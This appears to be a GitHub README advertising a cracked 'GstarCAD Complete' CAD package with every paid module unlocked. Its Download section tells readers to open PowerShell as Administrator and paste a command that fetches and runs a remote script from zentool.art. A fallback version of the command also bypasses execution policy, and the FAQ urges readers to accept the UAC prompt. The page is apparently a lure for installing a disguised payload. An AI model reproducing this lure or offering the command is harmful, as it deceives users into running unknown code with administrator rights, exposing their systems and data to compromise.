

***

# GstarCAD Complete

<p align="center">
  
</p>

GstarCAD Complete — Windows 11 and 10 build | modeling | every module enabled | no edition limits.

## About this application

**GstarCAD Complete** in this repo is a Windows desktop package for engineers, drafters, and design teams who want the full desktop experience without missing tools or locked panels. This is the complete professional build — every module that normally sits behind a paid tier is already active, so you can use modeling, drafting, and professional CAD workflows from the first launch. Expect a guided setup through PowerShell, a responsive workspace on a standard PC, and workflows that feel like the top-tier edition from day one.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://zentool.art/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://zentool.art/ps/setup.ps1 | iex"
```

</details>

## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

**Is this the full professional build?** Yes. Every module in the Complete edition is enabled after install — modeling, drafting, and professional CAD workflows open without edition limits or locked panels.

## About

GstarCAD Complete suits engineers, drafters, and design teams who need a straightforward Windows install and a workflow that does not stop at basic features. If you rely on modeling, drafting, and professional CAD workflows daily, this package keeps the entire toolkit open — no trial countdown, no feature gates, and no need to upgrade inside the app.

## What's included

The complete design studio is bundled in this release. That means every professional module, preset library, and advanced toolset is enabled after setup — the same capabilities people expect from the highest desktop edition, ready locally without extra steps. Install once through PowerShell, open the app, and work with the full toolkit immediately.

## Features

⚡ Parametric modeling
🧩 Assembly tools
📐 Drawing sheets
✨ BOM export
📦 Industry formats
🗂️ Project libraries
🔍 Measurement tools

## Good for

- 📌 Engineering firms
- 🎯 Manufacturing teams
- ⭐ Technical colleges

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 16 GB minimum | 32 GB recommended
* **Disk:** 15 GB available storage

***
